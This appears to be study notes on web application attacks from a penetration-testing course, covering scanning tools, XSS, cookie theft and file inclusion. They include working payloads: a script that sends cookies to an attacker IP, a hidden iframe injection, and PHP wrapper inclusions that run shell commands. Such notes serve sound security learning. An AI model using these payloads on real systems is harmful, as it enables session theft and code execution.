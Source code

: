 # Web Application Attacks

## Web Application Enumeration

- Programming language and frameworks
- Web server software
- Database software
- Server operating system

## Web Application Assessment Tools

1. dirb

- `r` scan no-recursively
- `z` to add N millisecond delay to each request

```bash
dirb url -r -z 10
```

tips:
> DirBuster is a Java application similar to DIRB that offers multi-threading and a GUI-based interface.

2. BurpSuite

proxy tools

- Firefox: FoxyProxy
- Chrome: SwitchyOmega

3. Nikto

- `maxtime` scan time limit
- `T` tune the scan
- `host` host

```bash
nikto -host=url -maxtime=30s
```

## Exploiting Web-based Vulnerabilities

### 0x01. Exploiting Admin Console

1. dirb
2. burp suite

> dicts: https://github.com/danielmiessler/SecLists.git


### 0x02. Cross-Site Scripting (XSS)

#### a. basic

1. DOM

> DOM-based XSS attacks are similar to the other two types, but take place solely within the page’s Document Object Model (DOM).

2. Reflected(Persistent XSS)

> Reflected XSS attacks usually include the payload in a crafted request or link. The web application
takes this value and places it into the page content. This variant only attacks the person
submitting the request or viewing the link.

3. Stored

> occurs when the exploit payload is stored in a database or otherwise cached by a server

#### b. Identifying XSS Vulnerabilities

> < > ' " { } ;

>let’s describe the purpose of these special characters. HTML uses “<” and “>” to denote
elements,262 the various components that make up an HTML document. JavaScript uses “{” and
“}” in function declarations. Single (’) and double (") quotes are used to denote strings and
semicolons (;) are used to mark the end of a statement.

> If the application does not remove or encode these characters, it may be vulnerable to XSS as the
characters can be used to introduce code into the page.

#### c. Basic XSS

> <script>alert('XSS')</script>

#### d. Content Injection

> <iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>

apache log-file path: /var/log/apache2/access.log

#### e. Stealing Cookies and Session Information

> The Secure271 flag instructs the browser to only send the cookie over encrypted connections,
such as HTTPS. This protects the cookie from being sent in cleartext and captured over the
network.

> The HttpOnly272 flag instructs the browser to deny JavaScript access to the cookie. If this flag is
not set, we can use an XSS payload to steal the cookie

PHPSESSID

> <script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>

cookie-editor, firefox, https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/

#### f. Other XSS Attack Vectors

1. keystroke loggers
2. phishing attacks
3. port scanning
4. content scrapers/skimmers

BeEF, the Browser Exploitation Framework, that can leverage a simple XSS vulnerability to launch many different client-side attacks

### 0x03. directory traversal(path traversal vulnerabilities)

> allow us to read files of any type, including those outside the web root directory

### 0x04. File Inclusion Vulnerabilities

> file inclusion allow attacker to include a file into the application's running code

1. Local file inclusions(LFI)


2. Remote file inclusions(RFI)

> need allow_url_include = on

PHP:
    1. register_globals
    2. allow_url wrappers

tips:

> start a simple http server
```bash
python -m SimpleHTTPServer listen_port  # python 2.x
python -m http.server listen_port     # python 3.x
ruby -run -e httpd . -p listen_port   # ruby
busybox httpd -f -p listen_port       # busybox
```

*php wrappers*

```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
http://10.11.0.22/menu.php?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKTsgPz4
```


### 0x05. SQL injection
